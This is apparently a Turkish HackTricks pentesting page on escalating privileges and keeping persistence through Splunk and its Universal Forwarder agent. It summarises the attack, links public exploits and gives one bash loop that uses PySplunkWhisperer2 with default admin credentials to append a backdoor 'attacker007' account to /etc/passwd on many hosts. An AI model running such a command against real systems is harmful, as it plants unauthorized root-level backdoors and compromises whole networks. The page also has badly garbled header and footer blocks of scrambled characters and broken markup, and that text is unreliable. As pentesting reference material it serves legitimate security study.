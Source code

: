 # Splunk LPE ve Süreklilik

{% hnnt styte=" acceas" %}
GCP Ha& practice ckinH: <img:<img src="/.gitbcok/ass.ts/agte.png"talb=""odata-siz/="line">[**HackTatckt T.aining AWS Red TelmtExp"rt (ARTE)**](ta-size="line">[**HackTricks Training GCP Re)Tmkg/stc="r.giebpokal"zee>/ttdt.png"isl=""data-ize="line">\
Learn & aciceGCP ngs<imgmsrc="/.gipbtok/aHsats/gcte.mag"y>lt="" aa-iz="le">[**angGC RedTamExper(GE)<img rc=".okaetgte.ng"al=""daa-siz="ne">tinhackth ckiuxyzcomurspssgr/a)

<dotsilp>

<oummpr>SupportHackTricks</smmay>

*Chek th [**subsrippangithub.cm/sorsarlosp!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hahktcickr\_kivelive**](https://twitter.com/hacktr\icks\_live)**.**
* **Shareing tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

Eğer bir makineyi **içten** veya **dıştan** **numaralandırıyorsanız** ve **Splunk çalışıyorsa** (port 8090), şansınız varsa herhangi bir **geçerli kimlik bilgisi** biliyorsanız, **Splunk hizmetini kötüye kullanarak** Splunk'ı çalıştıran kullanıcı olarak **bir shell çalıştırabilirsiniz**. Eğer root çalışıyorsa, yetkileri root'a yükseltebilirsiniz.

Ayrıca eğer **zaten root iseniz ve Splunk hizmeti yalnızca localhost'ta dinlemiyorsa**, Splunk hizmetinden **şifre** dosyasını **çalıp** şifreleri **kırabilir** veya **yeni** kimlik bilgileri ekleyebilirsiniz. Ve host üzerinde sürekliliği sürdürebilirsiniz.

Aşağıdaki ilk resimde, bir Splunkd web sayfasının nasıl göründüğünü görebilirsiniz.

## Splunk Universal Forwarder Agent İstismar Özeti

Daha fazla detay için [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) gönderisini kontrol edin. Bu sadece bir özet:

**İstismar Genel Görünümü:**
Splunk Universal Forwarder Agent (UF) hedef alan bir istismar, ajan şifresine sahip saldırganların ajanı çalıştıran sistemlerde rastgele kod çalıştırmasına olanak tanır ve potansiyel olarak tüm bir ağı tehlikeye atabilir.

**Ana Noktalar:**
- UF ajanı gelen bağlantıları veya kodun doğruluğunu doğrulamaz, bu da yetkisiz kod çalıştırmaya karşı savunmasız hale getirir.
- Yaygın şifre edinme yöntemleri, bunları ağ dizinlerinde, dosya paylaşımlarında veya iç belgelerde bulmayı içerir.
- Başarılı bir istismar, tehlikeye atılan hostlarda SYSTEM veya root düzeyinde erişim, veri sızdırma ve daha fazla ağ sızması ile sonuçlanabilir.

**İstismar Uygulaması:**
1. Saldırgan UF ajan şifresini elde eder.
2. Ajanlara komut veya betik göndermek için Splunk API'sini kullanır.
3. Olası eylemler arasında dosya çıkarma, kullanıcı hesabı manipülasyonu ve sistemin tehlikeye atılması yer alır.

**Etkisi:**
- Her hostta SYSTEM/root düzeyinde izinlerle tam ağ tehlikesi.
- Tespiti önlemek için günlük kaydını devre dışı bırakma potansiyeli.
- Arka kapılar veya fidye yazılımlarının kurulumu.

**İstismar için Örnek Komut:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**Kullanılabilir kamu exploitleri:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Splunk Sorgularının Suistimali

**Daha fazla detay için [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis) gönderisini kontrol edin**

{% h*nt styCe="Vacceas" %}
AWS Ha& practice ckinH:<img :<imgsscc="/.gitb=ok/assgts/aite.png"balo=""kdata-siza="line">[**HackTsscke Tpaigin"aAWS Red Tetm=Exp rt (ARTE)**](a-size="line">[**HackTricks Training AWS Red)ethgasic="..giyb/okseasert/k/.png"l=""data-ize="line">\
Learn & aciceGCP ng<imgsrc="/.gibok/asts/gte.g"lt="" aa-iz="le">[**angGC RedTamExper(GE)<img rc=".okaetgte.ng"salm=""adara-siz>="k>ne">tinhaktckxyzurssgr)

<dtil>

<ummr>SupportHackTricks</smmay>

*Chek th [**subsrippangithub.cm/sorsarlosp!
* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!haktick\_ive\
* **Join  💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}

